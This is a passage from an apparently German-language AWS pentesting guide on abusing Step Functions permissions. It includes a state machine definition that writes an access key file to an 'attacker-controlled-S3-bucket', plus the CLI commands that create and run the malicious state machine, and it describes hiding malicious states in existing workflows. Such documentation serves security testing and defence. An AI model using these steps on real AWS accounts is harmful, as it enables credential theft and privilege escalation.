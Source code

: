 ```json
"Bucket": "attacker-controlled-S3-bucket",
"Key": "AccessKey.json"
},
"ResultPath": "$.S3PutObjectParams",
"Next": "PutObject"
},
"PutObject": {
"Type": "Task",
"Resource": "arn:aws:states:::aws-sdk:s3:putObject",
"Parameters": {
"Body.$": "$.S3PutObjectParams.Body",
"Bucket.$": "$.S3PutObjectParams.Bucket",
"Key.$": "$.S3PutObjectParams.Key"
},
"End": true
}
}
}
```
- **Befehl** ausgeführt, um **die Zustandsmaschine** zu **erstellen**:
```bash
aws stepfunctions create-state-machine --name MaliciousStateMachine --definition file://stateMachineDefinition.json --role-arn arn:aws:iam::123456789012:role/PermissiveRole
{
"stateMachineArn": "arn:aws:states:us-east-1:123456789012:stateMachine:MaliciousStateMachine",
"creationDate": "2024-07-09T20:29:35.381000+02:00"
}
```
- **Befehl** ausgeführt, um eine **Ausführung** der zuvor erstellten Zustandsmaschine zu **starten**:
```json
aws stepfunctions start-execution --state-machine-arn arn:aws:states:us-east-1:123456789012:stateMachine:MaliciousStateMachine
{
"executionArn": "arn:aws:states:us-east-1:123456789012:execution:MaliciousStateMachine:1a2b3c4d-1a2b-1a2b-1a2b-1a2b3c4d5e6f",
"startDate": "2024-07-09T20:33:35.466000+02:00"
}
```
> [!WARNING]
> Der vom Angreifer kontrollierte S3-Bucket sollte Berechtigungen haben, um eine s3:PutObject-Aktion vom Opferkonto zu akzeptieren.

**Potenzielle Auswirkungen**: Unbefugte Ausführung und Manipulation von Workflows sowie Zugriff auf sensible Ressourcen, was zu erheblichen Sicherheitsverletzungen führen kann.

### `states:UpdateStateMachine` & (nicht immer erforderlich) `iam:PassRole`

Ein Angreifer mit der Berechtigung **`states:UpdateStateMachine`** wäre in der Lage, die Definition einer Zustandsmaschine zu ändern und zusätzliche stealthy Zustände hinzuzufügen, die in einer Privilegieneskalation enden könnten. Auf diese Weise wird, wenn ein legitimer Benutzer eine Ausführung der Zustandsmaschine startet, dieser neue bösartige stealth Zustand ausgeführt und die Privilegieneskalation erfolgreich sein.
